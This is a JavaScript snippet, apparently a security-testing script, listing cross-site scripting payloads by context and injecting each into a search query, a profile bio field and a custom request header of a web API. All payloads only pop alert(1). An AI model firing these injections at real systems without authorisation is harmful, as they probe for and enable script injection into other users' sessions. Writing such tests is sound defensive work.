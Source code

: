 ```javascript
// XSS test payloads for different contexts
const xssPayloads = {
    // HTML context
    html: [
        "<script>alert(1)</script>",
        "<img src=x onerror=alert(1)>",
        "<svg onload=alert(1)>",
        "<iframe src=javascript:alert(1)>"
    ],
    
    // JavaScript context
    javascript: [
        "';alert(1);//",
        "\";alert(1);//",
        "\\';alert(1);//",
        "</script><script>alert(1)</script>"
    ],
    
    // Attribute context
    attribute: [
        "' onmouseover='alert(1)",
        "\" autofocus onfocus=alert(1) x=\"",
        "' style='background:url(javascript:alert(1))'"
    ],
    
    // URL context
    url: [
        "javascript:alert(1)",
        "data:text/html,<script>alert(1)</script>",
        "vbscript:alert(1)"
    ]
};

// Test each payload in different input fields
Object.entries(xssPayloads).forEach(([context, payloads]) => {
    payloads.forEach(payload => {
        // Test in search
        fetch(`/api/search?q=${encodeURIComponent(payload)}`);
        
        // Test in user input
        fetch('/api/profile', {
            method: 'PUT',
            body: JSON.stringify({ bio: payload })
        });
        
        // Test in headers
        fetch('/api/data', {
            headers: { 'X-Custom': payload }
        });
    });
});
```
